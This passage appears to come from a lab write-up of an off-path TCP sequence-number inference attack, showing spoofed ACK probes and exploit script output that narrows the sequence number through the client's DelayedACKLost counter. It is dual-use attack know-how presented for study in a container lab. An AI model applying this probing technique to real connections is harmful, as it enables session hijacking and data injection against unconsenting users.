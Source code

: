 We see `ACK` packets with `seq 0:1`, `16777216:16777217`, `33554432:33554433` and `50331648:50331649` from the spoofed `server` to the `client`. The `client` answers with `ACK` packets (but `ACK`ing the correct sequence number: `ack 3130168332`). Unfortunately we do not see this packet from `webserver` so we can't just sniff the sequence number from the wire ;-). We can also see the faked packet by looking at the MAC addresses:

* `02:42:ac:15:00:04` for the webserver
* `02:42:ac:15:00:03` for the client
* `02:42:ac:15:00:02` for the server

*Note*: As you can see from the non-increasing `DelayedACKLost` counter we see the mentioned TCP stack magic because the sequence number is "near" the 32bit wrap.

Eventually the script finds the sequence number range where the `DelayedACKLost` counter begins increasing:

```
[-] Sent fake probe packet from server to client with sequence  956301312. DelayedACKLost counter on client:   0
[-] Sent fake probe packet from server to client with sequence  973078528. DelayedACKLost counter on client:   0
[-] Sent fake probe packet from server to client with sequence  989855744. DelayedACKLost counter on client:   1
[-] Sent fake probe packet from server to client with sequence 1006632960. DelayedACKLost counter on client:   2
[-] Sent fake probe packet from server to client with sequence 1023410176. DelayedACKLost counter on client:   3
(...)
```

And finally after some time it finds where `DelayedACKLost` is not increasing anymore:

```
(...)
[-] Sent fake probe packet from server to client with sequence 3087007744. DelayedACKLost counter on client: 126
[-] Sent fake probe packet from server to client with sequence 3103784960. DelayedACKLost counter on client: 127
[-] Sent fake probe packet from server to client with sequence 3120562176. DelayedACKLost counter on client: 128
[-] Sent fake probe packet from server to client with sequence 3137339392. DelayedACKLost counter on client: 128
[!] DelayedACKLost counter did not increase.
[+] Determined lower bound of sequence number: 3120562176
[+] Determined upper bound of sequence number: 3137339392

```

We now know that the real sequence number must be between `3120562176` and `3137339392` (this is in fact true as the real sequence is `3130168332`). The exploit switches into device and conquer mode now:

```
[+] Starting divide and conquer in those bounds.
[-] Sent fake probe packet from server to client with sequence 3128950784. DelayedACKLost counter on client: 129 (increased: sequence number is bigger)
[-] Sent fake probe packet from server to client with sequence 3133145088. DelayedACKLost counter on client: 129 (not increased: sequence number is smaller)
(...)
```
